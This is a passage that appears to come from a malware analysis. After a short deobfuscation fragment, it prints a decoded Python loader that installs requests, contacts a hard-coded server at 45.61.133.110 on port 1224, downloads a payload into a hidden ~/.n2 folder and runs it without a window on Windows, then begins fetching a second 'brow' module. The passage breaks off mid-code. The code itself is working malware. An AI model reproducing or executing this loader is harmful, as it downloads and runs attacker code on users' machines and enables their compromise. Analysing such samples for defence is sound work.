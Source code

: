 ```python
        break
    t = t.split('\'', 1)[1]
    t = t.split('\'')[0]
    x = t
```

And we got this file:
```python
import base64,platform,os,subprocess,sys
try:import requests
except:subprocess.check_call([sys.executable, '-m', 'pip', 'install', 'requests']);import requests

sType = "106"
gType = "81"
ot = platform.system()
home = os.path.expanduser("~")
host1123 = "10.10.51.212 go to hell"
host1 = "45.61.133.110"
host2 = f'http://{host1}:1224'
pd = os.path.join(home, ".n2")
ap = pd + "/pay"
def download_payload():
    if os.path.exists(ap):
        try:os.remove(ap)
        except OSError:return True
    try:
        if not os.path.exists(pd):os.makedirs(pd)
    except:pass

    try:
        if ot=="Darwin":
            # aa = requests.get(host2+"/payload1/"+sType+"/"+gType, allow_redirects=True)
            aa = requests.get(host2+"/payload/"+sType+"/"+gType, allow_redirects=True)
            with open(ap, 'wb') as f:f.write(aa.content)
        else:
            aa = requests.get(host2+"/payload/"+sType+"/"+gType, allow_redirects=True)
            with open(ap, 'wb') as f:f.write(aa.content)
        return True
    except Exception as e:return False
res=download_payload()
if res:
    if ot=="Windows":subprocess.Popen([sys.executable, ap], creationflags=subprocess.CREATE_NO_WINDOW | subprocess.CREATE_NEW_PROCESS_GROUP)
    else:subprocess.Popen([sys.executable, ap])

if ot=="Darwin":sys.exit(-1)

ap = pd + "/bow"

def download_browse():
    if os.path.exists(ap):
        try:os.remove(ap)
        except OSError:return True
    try:
        if not os.path.exists(pd):os.makedirs(pd)
    except:pass
    try:
        aa=requests.get(host2+"/brow/"+ sType +"/"+gType, allow_redirects=True)
        with open(ap, 'wb') as f:f.write(aa.content)
        return True
    except Exception as e:return False
res=download_browse()
if res:
```